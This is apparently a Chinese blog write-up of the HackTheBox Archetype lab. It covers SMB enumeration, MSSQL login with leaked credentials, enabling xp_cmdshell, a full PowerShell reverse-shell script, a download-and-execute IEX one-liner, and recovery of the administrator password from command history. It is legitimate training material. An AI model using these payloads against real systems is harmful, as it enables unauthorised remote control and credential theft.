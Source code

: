 ```yaml
---
title: HTB-Archetype靶机思路 
tags: HTB,靶机,思路
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



## 前言

>这个是之前打过的靶机，之前也记录了一下，现在把它放在博客里，方便自己查看
>其实按照他里面的步骤一步一步来就可以了，但是中间踩了好多坑，心累，所以记录一下

## 环境准备

>操作机：Kali Linux

>首先要在 Kali 上安装 openvpn
>```
>apt-get install network-manager-openvpn
>apt-get install network-manager-openvpn-gnome
>apt-get install network-manager-pptp
>apt-get install network-manager-pptp-gnome
>apt-get install network-manager-strongswan
>apt-get install network-manager-vpnc
>apt-get install network-manager-vpnc-gnome
>```

安装openvpn之后，我们来下载.ovpn文件

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845167236.png)

使用opnvpn来访问这个文件，连上环境IP

`sudo openvpn MrHat-startingpoint.ovpn`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845353335.png)

然后试着 ping 一下目标IP `10.10.10.27`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846212044.png)

## 信息收集

环境配置好之后，目标IP也知道了，进行简单的信息收集

首先端口扫描，看看是否开放可疑端口
`sudo nmap -sC -sV 10.10.10.27`

> -sC 根据端口识别的服务,调用默认脚本
> 
> -sV 开放版本探测,可以直接使用-A同时打开操作系统探测和版本探测 

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846553562.png)

开放端口：
- 135  msrpc        Microsoft Windows RPC 
- 139  netbios-ssn  Microsoft Windows netbios-ssn 
- 445  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds 
- 1433 ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

## 漏洞利用

>445 文件共享（SMB）
>
>1433  SQL Server相关联

先看一下445端口的SMB是否允许匿名访问
`smbclient -N -L \\\\10.10.10.27\\`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847031208.png)

`backups` 目录 一般来说是备份目录
连接一下 `backups` 目录，然后 `dir` 查看一下目录下的文件

`smbclient -N -L \\\\10.10.10.27\\backups`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847147868.png)

可以看到里面有一个 `prod.dtsConfig` 文件，我们下载一下

`get prod.dtsConfig`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847259590.png)

查看一下里面的内容

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847308001.png)

它包含一个 `SQL 连接字符串` 和本地 Windows 用户 `ARCHETYPE\sql_svc`

接下来我们使用 `Impacket` 下的 `mssqlclient.py` 来连接一下这个 Sql Server

>Github下载链接：https://github.com/SecureAuthCorp/impacket

下载完成，解压出来，然后安装依赖 执行 `pip install .`  注意有个点

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847431335.png)

然后找到 examples 目录下的 `mssqlclient.py`

执行命令
`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847571370.png)

**`注意这个斜杠 文档复制出来的是 “\” 这个，但是不行 必须要 “/”这个斜杠才可以`**

成功连接 Sql Server，然后执行 sql 语句

先使用 `IS_SRVROLEMEMBER` 函数来查看当前 SQL 用户的权限是否为 sysadmin 最高权限

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847804543.png)

返回1那就说明是 sysadmin 权限

接下来我们开启 `xp_cmdshell` 来执行系统命令
```sql?linenums
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
```
开启成功

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848048509.png)

接下来执行一下系统命令 查看一下权限
`xp_cmdshell "whoami"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848113617.png)

## 权限提升

利用 powershell 反弹shell

新建一个 `shell.ps1` 文件
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
注意修改一下 `ip`，`端口`

接下来我们使用 python3 来托管文件
`sudo python3 -m http.server 80`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848857109.png)

使用 `nc` 来监听刚刚设置的端口，我设置的是 443

`sudo nc -lvnp 443`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848941236.png)

然后执行系统命令来访问下载并执行文件

`xp_cmdshell "powershell "IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.10.14.29/shell.ps1\");"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849065273.png)

看 nc 这边的反应

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849164777.png)

反弹成功！

查看一下文件

`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849401803.png)

>文件内容:
>net.exe use T: rchetypeVbackups /user:administrator MEGACORP_4dmin!!

发现是 `administrator` 账户密码

我们通过 `Impacket/examples/psexec.py` 连接一下这个 administrator 账户

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849493455.png)

## 获取Flag

Flag 在桌面

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849547580.png)







